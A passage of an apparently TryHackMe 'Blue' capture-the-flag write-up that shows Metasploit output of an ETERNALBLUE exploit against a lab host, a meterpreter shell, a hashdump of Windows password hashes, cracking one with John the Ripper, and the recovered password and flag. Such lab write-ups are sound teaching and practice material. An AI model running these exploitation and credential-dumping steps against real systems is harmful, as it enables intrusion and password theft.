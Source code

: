 ```console
[+] 10.10.46.162:445 - Target OS selected valid for OS indicated by SMB reply                                                                                                                                                                                                                                                                                        
[+] 10.10.46.162:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!                                                                                                                                   
[+] 10.10.46.162:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.46.162:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.46.162:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 

```
###Flags:

Use `shell` command to open the standard terminal on the target host.

```console
meterpreter > shell
Process 1652 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>
```

To look for the password hashes use `hashdump` command

```console
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Now use `John the Ripper` to crack the hash of `Jon`

```console
┌──(kali@kali)-[~/Machine/THM/Blue]
└─$ echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt

┌──(naahl@kali)-[~/Machine/THM/Blue]
└─$ john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Password of `Jon` is `alqfna22`. Now the first flag is in `system32`

```console
C:\Windows\system32>type C:\flag1.txt
type C:\flag1.txt
flag{access_the_machine}
```
**Flag 1:** `flag{access_the_machine}`

Second flag will be in `C:/Windows/System32/config`
